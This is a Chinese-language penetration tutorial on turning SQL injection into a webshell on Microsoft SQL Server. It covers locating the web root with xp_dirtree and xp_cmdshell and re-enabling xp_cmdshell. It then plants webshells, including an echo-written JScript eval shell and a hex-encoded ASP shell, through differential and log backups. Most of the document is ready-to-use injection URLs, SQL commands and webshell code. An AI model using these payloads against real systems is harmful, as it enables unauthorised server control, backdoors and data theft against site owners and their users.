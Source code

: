 # 0x00 简介

备份拿shell也就涉及到了权限的问题，SA权限不用说没有降权的话基本能做任何事情了，它数据库权限是`db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下shell，但是在设置目录权限后就不行了。



# 0x01 路径的寻找

需要路径的我们一般有几个思路：

1. 报错寻找 

2. 字典猜

3. 旁站信息收集

4. 调用储存过程来搜索

6. 读配置文件



这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录 一般我们可以用xp_cmdshell xp_dirtree 

`xp_dirtree` `xp_subdirs`

```
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 

```

那么我们怎么利用呢，执行xp_dirtree返回我们传入的参数如果你想吧文件名一起返回来，因为没有回显所以可以这样创建一个临时的表插入

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);

http://192.168.130.137/1.aspx?id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1

```

![mysql](./img/2.1.1.png)


`xp_cmdshell`

这个xp_cmdshell 找起来更加方便我们调用cmd的命令去搜索，比如我的web目录有个1.aspx  

```

C:\Users\Aleen>for /r c:\ %i in (1*.aspx) do @echo %i
c:\Users\Aleen\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.
IE5\8KB2ZI22\1[1].aspx
c:\www\1.aspx

```

所以我只需要建立一个表 存在一个char字段就可以了

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'


```

![mysql](./img/2.1.2.png)


当然你可能遇到xp_cmdshell不能调用 如果报错

>SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用。

可以用如下命令恢复

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--

```

当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧 ，这些问题百度一堆一堆的。

其他的可以利用的储存过程还有sp_oamethod什么的不是本文讨论的重点了，因为2008的xp_cmdshell 权限不是2005那样的system 所以不考虑加账号

`xp_regread`

通过读注册表 这个在win2000才有用 就不多说了

```
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/'

```

# 0x02 xp_cmdshell拿shell

虽然是备份拿shell顺便提下，我们找到目录了权限能调用xp_cmdshell来写那样就很轻松了也就不需要备份了。

```
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;

```

由于cmd写webshell的主意这些转义的问题 当然条件允许也可以使用certutil或者vbs什么的来下载


# 0x03 差异备份

能通过xp_cmdshell拿下webshell的情况现在也不算多了，备份拿shell还算常见 具体步骤搞过的朋友都知道。

```
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--

```


差异备份我们有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到c盘根目录


当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用前面提到的 定义局部变量来执行。





# 0x04 LOG备份

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```
alter database 库名 set RECOVERY FULL

```

```
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'

```

相对于差异备份，log备份的好处就是备份出来的webshell的文件大小非常的小我数据库没啥东西，前面备份出来2000k这个只有83k。





# 0x05 文末

#### 本文如有错误，请及时提醒，避免误导他人


BY 404
